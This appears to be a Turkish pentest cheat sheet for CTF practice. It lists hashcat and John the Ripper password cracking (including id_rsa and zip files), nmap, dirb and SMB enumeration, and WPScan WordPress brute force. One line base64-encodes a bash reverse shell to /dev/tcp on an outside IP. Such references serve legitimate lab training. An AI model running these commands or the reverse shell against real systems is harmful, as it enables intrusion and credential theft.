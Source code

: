 # Pentest El-Kitabı

# SH to Bash #
/bin/bash -i yada python3 -c 'import pty; pty.spawn("/bin/bash")'

# Hashcat Kullanım Örneği #
-m ---> Hash türünü belirtmek için kullanılır.
0 ---> Kütüphanede ki hash'in sayısı
" " ---> İki tırnak arası Hash'in geleceği yer.
/usr/share/wordlists/rockyou.txt ---> Hangi wordlist'i kullanacaksanız onu yazacağınız yer.
--force ---> Uyarıları geçer.

hashcat -m 0 "UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds" /usr/share/wordlists/rockyou.txt --force

# GCC Compile #
-o ---> dosyanın çıktısının ismi.

gcc -o örnek.c/py/rb

# Python ile PC servis etme #
python3 -m http.server

# CTF'ler için basic NMAP komutu #
nmap -sV -sC -A -T4 <ip.adress>

# Dirb Örnek Basic Kullanım #
dirb http://<ip.adress> /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# JohnTheRipper Örnek Kullanımlar #
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt /root/Desktop/spider.txt ---> Hash formatını biliyorsanız -format=<buraya yazınız>

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

zip2john backup.zip > backup.hash ---> Zip şifrelerini hashlemek ve ardından kırmak için. ---> Kırmak istediğiniz zip > " hash çıktısının dosya adı "

ssh2john id_rsa > aa.txt ---> id_rsa'leri kırmak için.

# SMB'ye bakmak için #
smbclient -L <ip.adress> ---> Full enum
smbclient //<ip.adress>/<Bakmak istediğiniz dosyanın ismi>

# SCP kullanımı #
scp /root/37292.c <Kullanıcının ismi>@<ip.adress>:/tmp ---> Karşı tarafa ssh ile dosya aktarımı

# ECHO kullanımları #
echo -n "<Rot13-HasH>" | tr 'A-Za-z' 'N-ZA-Mn-za-m' ---> ROT13 hash decode
echo -n "Base64-Hash" | base64 -d ---> Base64 Hash decode
echo -n "Base64 Hash'e çevirmek istediğiniz kod. Örnek = (echo -n "bash -i >& /dev/tcp/10.8.50.72/4444 0>&1" | base64) " | base64
echo "<Yazmak istediğiniz şey >" > < İçine yazmak istediğiniz dosya/doküman>
echo 1 > /proc/sys/net/ipv4/ip_forward ---> IP forward

# WPSCAN Kulanımı #
wpscan --url < URL > -e vp,u ---> '-e' = Enum || vp ---> Vulnerable plugins || u ---> Users
wpscan --url < URL > --username elyana --password /usr/share/wordlists/rockyou.txt ---> Wordpress bruteforce saldırı. Manuel.
wpscan --url jack.thm -e u -P /usr/share/wordlists/rockyou.txt ---> Wordpress bruteforce saldırı. Otomatik.


 

